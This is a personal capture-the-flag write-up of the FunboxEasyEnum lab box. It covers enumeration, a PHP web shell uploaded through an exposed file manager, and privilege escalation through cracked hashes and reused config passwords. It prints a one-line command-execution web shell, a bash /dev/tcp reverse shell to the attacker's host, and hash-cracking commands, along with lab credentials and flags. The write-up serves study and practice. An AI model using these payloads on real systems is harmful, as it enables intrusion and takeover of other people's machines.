


# FunboxEasyEnum - Proving Grounds Play Writeup

**Box**: FunboxEasyEnum  
**Difficulty**: "Easy" but felt more intermediate   
**OS**: Linux (Ubuntu)  
**Date**: January 11, 2026  
**Time**: ~1h 50m (actual work time)


---

## TL;DR

Exploited a file upload vulnerability in Zerion Mini Shell to gain initial access as `www-data`. Found a password hash for user `oracle` in `/etc/passwd` and cracked it with John the Ripper. Discovered database credentials in PHPMyAdmin config that worked for user `karla`. Karla had full sudo permissions, leading to easy root access.

**Key Lesson**: Pay attention when manually typing in passwords!

---

## Enumeration

### Nmap Scan
```bash
nmap -sCV -p- -T4 192.168.x.x
```

**Open Ports**:
- **22/tcp** - SSH (OpenSSH 7.6p1)
- **80/tcp** - HTTP (Apache 2.4.29)

### Web Enumeration

Checked `/robots.txt`:
```
Allow: Enum_this_Box
```

This hint led to directory enumeration:

```bash
gobuster dir -u http://192.168.x.x -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,sh -t 50
```

**Key Finding**: 
```
/mini.php             (Status: 200) [Size: 3828]
```

---

## Exploitation

### Initial Access - Web Shell Upload

Navigated to `http://192.168.x.x/mini.php` and found **Zerion Mini Shell 1.0** with file upload functionality.

<!-- Mini shell interface - large (main exploit point) -->


Created a simple command execution shell:
```bash
echo '<?php system($_GET["cmd"]); ?>' > cmd.php
```

Uploaded `cmd.php` via the mini.php interface.

Executed commands:
```
http://192.168.x.x/cmd.php?cmd=whoami
# Output: www-data
```

### Reverse Shell

Set up listener:
```bash
nc -lvnp 4444
```

Triggered reverse shell:
```
http://192.168.x.x/cmd.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.x.x/4444+0>%261'
```

Stabilized the shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

---

## Privilege Escalation

### User Enumeration

Checked home directories:
```bash
ls -la /home
```

**Found users**:
- goat
- harry
- karla ← (Hint: "Visit Karla at home")
- oracle
- sally

### Finding Oracle's Password

Checked `/etc/passwd` for misconfigurations:
```bash
cat /etc/passwd | grep '\$'
```

**JACKPOT**: User `oracle` had password hash exposed in `/etc/passwd`:
```
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
```

### Cracking with John the Ripper

```bash
# Copy rockyou.txt to home directory (can't sudo in OffSec environment)
cp /usr/share/wordlists/rockyou.txt.gz ~/
gunzip ~/rockyou.txt.gz

# Save hash to file
echo 'oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash' > oracle_hash.txt

# Crack it
john --format=md5crypt --wordlist=~/rockyou.txt oracle_hash.txt
```

**Cracked Password**: `hiphop`

### Lateral Movement to Oracle

```bash
su oracle
# Password: hiphop
```

Checked sudo permissions:
```bash
sudo -l
# Output: Sorry, user oracle may not run sudo on funbox7.
```

**Dead end** - oracle has no sudo permissions!

### Finding More Credentials

Went back to `www-data` and checked PHPMyAdmin configuration:
```bash
cat /etc/phpmyadmin/config-db.php
```

**Found database credentials**:
```php
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
```

### Lateral Movement to Karla

**KEY MISTAKE**: Initially tried SSH with all users but kept getting "Permission denied"

**THE ISSUE**: I was typing the password wrong! It's `tgbzhnujm!` ... I forgot the exlcamation point and j. (this mistake cost me 30 minutes of troubleshooting )

Also didn't realize I needed to **lateral move THROUGH oracle** to get to karla until I did the recap. The path was:
```
www-data → oracle (with "hiphop") → karla (with "tgbzhnujm!")
```

Correct path:
```bash
su oracle
# Password: hiphop

su karla  
# Password: tgbzhnujm!
```

### Root Access

Checked sudo permissions for karla:
```bash
sudo -l
```

**Output**:
```
User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```

Karla has **FULL sudo permissions**!

```bash
sudo su
# Password: tgbzhnujm!
```

**ROOT ACCESS ACHIEVED!**

---

## Flags

### Root Flag
```bash
cat /root/proof.txt
589b365f95257272e6d1c0efd4d064f6
```


**Bonus**: Found a troll flag:
```bash
cat /root/root.flag
Your flag is in another file...
```


### User Flag
```bash
cat /var/www/local.txt
```



---

## Lessons Learned

### 1. **PAY ATTENTION TO PASSWORDS** 
   - Spent significant time troubleshooting because I mistyped the password
   - Always copy/paste passwords when possible and for notekeeping sake

### 2. **Lateral Movement Isn't Always Direct**
   - Didn't realize oracle was just a stepping stone to karla
   - Path: `www-data → oracle → karla → root`
   - Not every user you compromise will have the privilege escalation path

### 3. **Try `su` Before SSH**
   - When you have credentials, try switching users with `su` first
   - SSH might be restricted even if the password is valid
   - `su` worked, SSH didn't

### 4. **Check Config Files for Password Reuse**
   - Database credentials in `/etc/phpmyadmin/config-db.php` were reused for a system user
   - Always check: `/var/www/`, `/etc/`, application configs

### 5. **Hints Are Literal**
   - "Visit Karla at home" → Karla was the target user
   - "John and Hydra loves only rockyou.txt" → Use rockyou.txt for cracking
   - "Enum/reduce the users to brute force" → Find valid users first

### 6. **Read Before You Edit**
   - Initially tried editing mini.php and broke the lab 😅
     
     
     
   - Just upload new files instead of modifying existing ones
   - Keep it simple

---

## Tools Used

- **nmap** - Port scanning
- **gobuster** - Directory enumeration  
- **John the Ripper** - Password hash cracking
- **netcat** - Reverse shell listener

---

## Kill Chain Summary

```
1. Nmap → Found ports 22, 80
2. robots.txt → Hint about "Enum_this_Box"
3. Gobuster → Found mini.php
4. File Upload → Uploaded cmd.php for RCE
5. Reverse Shell → Got shell as www-data
6. /etc/passwd → Found oracle's password hash
7. John the Ripper → Cracked hash → "hiphop"
8. su oracle → Got oracle user access (no sudo)
9. /etc/phpmyadmin/config-db.php → Found "tgbzhnujm!"
10. su karla → Got karla user (with correct password!)
11. sudo -l → Karla has (ALL : ALL) ALL
12. sudo su → ROOT!
13. Captured flags → /root/proof.txt & /var/www/local.txt
```

---

## OSCP Relevance

**Time**: ~1h 50m actual work  
**Difficulty**: intermediate (my rating)
**Skills Practiced**:
- Web enumeration
- File upload exploitation
- Password cracking
- Lateral movement
- Privilege escalation via sudo
- Config file enumeration


---

## Final Thoughts

This box reinforced the importance of **attention to detail** - especially with passwords! The lateral movement through multiple users was a good learning experience. 

The "troll flag" in `/root/root.flag` was a nice touch. This shows how easy a user can fall for a honeyfile in a system.


**Thanks for reading! Happy hacking! **

---

